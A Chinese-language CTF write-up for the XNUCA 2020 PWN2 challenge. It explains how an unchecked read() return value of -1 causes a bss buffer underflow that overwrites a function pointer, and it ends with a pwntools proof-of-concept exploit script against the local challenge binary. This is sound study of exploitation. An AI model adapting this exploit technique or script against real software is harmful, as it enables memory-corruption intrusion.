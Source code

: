 #  XNUCA 2020  PWN2 WP



这道题的场景和qwb2020  unicoder的第一部分完全一样，甚至简单一点，因为少了个类型混淆。 Unicoder 原题是这么写的(PWN2的时候我把这部分去掉了)：

```
(int)v2 = get_num();
if(v2<=0 || (char)v2 >31);
```

然后接下来Unicoder 和PWN2这道题都是一样的代码：

```c
v1 = 0;
v2 = length;
do
{
    if(v1 >= v2)   break;
    v1 +=  read(0, &buf[v1], v2-v1); //buf in bss section
} while(buf[length-1]!='/n')
```

buf是bss段上的缓冲区。

问题在哪？

还记得网鼎杯2018有一个题，场景大概是：

```c
void func(){
    FILE *fp = fopen(secret_file ,'w+');
    memset(secret, 0, sizeof(secret));
    fread(secret, 1, length, fp);
    memcmp(secret, your_input);
    if( !memcmp(secret, your_input)){
        you_can_get_shell;
    }
}
```

这里的问题在于， 文件打开之后是没有close， 而一个进程的资源有限的 ，默认（可以用ulimit设置）只能打开1024个文件，于是重复调用 func 1022次之后，fopen函数返回-1, 那么fread 是一个无限的调用，且不会造成进程的crash。 于是secret就是空字符串， 于是这道题就解了。

还有就是经典的出题人自己写的内核， 然后出成内核题：

```c
(char *) a = (char *)kmalloc(1024);
then you can write anything to address a.
```

经典kmalloc实现有问题， 可以返回 0，而此时内核code段的地址是0。 （印象中2018年到2019年碰到了几次，包括2019 defcon quals）。 

归类这类问题， 对于敏感句柄（资源）的使用，必须检查申请资源的函数返回值是否合理！！！！！

```
//fopen和open检查其返回值， malloc和kmalloc检查其返回值 
//一个进程的内存有限
//无限的 (char *) a = (char *)malloc(1024); 会使得 a =-1;
```

那么对于read函数同样：

```
(int)a  = read(0, &bss_buf, length); 
```

bss_buf 是有长度限制的， 如果length >  bss_end - &bss_buf 会怎么样?    答案是a = -1。

于是

```c
v1 +=  read(0, &buf[v1], v2-v1); //buf in bss section
```

这句话，就会导致 v1 += -1， 于是导致了缓冲区前溢。于是令 v2 =  bss_end  - v1 + 4 , 可以往前推移4个字节（32位）的偏移，可以覆盖写函数指针。

当时qwb的时候读了100遍以上的题目审到了这个洞，但还是差了5分钟没能拿到这个题的一解， 膜Unicoder f61d的出题师傅。 但思路还是特别好的，让我知道，以后写代码记得：

```c
if( read(0,buf,1024) <=0)    printf("gg\n");
```



另外，还有一个有趣的现象，read这样的行为， 在动态链接和静态链接的行为是不一致的。静态链接不会出现上述问题。有兴趣的师傅可以去细究其中原因。

POC：

```python
#coding:utf-8
from pwn import *
import os 

context.arch="i386"
context.log_level='debug'

io=process("./pwn2")

io.recvuntil("again\n")
io.sendline('a'*4)

io.recvuntil("> ")
io.sendline('1')

io.recvuntil('path: ')
io.sendline('a')

io.recvuntil('length: ')
io.sendline(str(0xe80-4)) 

io.recvuntil("Digest: ")
io.send(b'will'+b'a'*(0xe80-8)) #忘了这个偏移是否有变，题目改了几次

io.interactive()
```



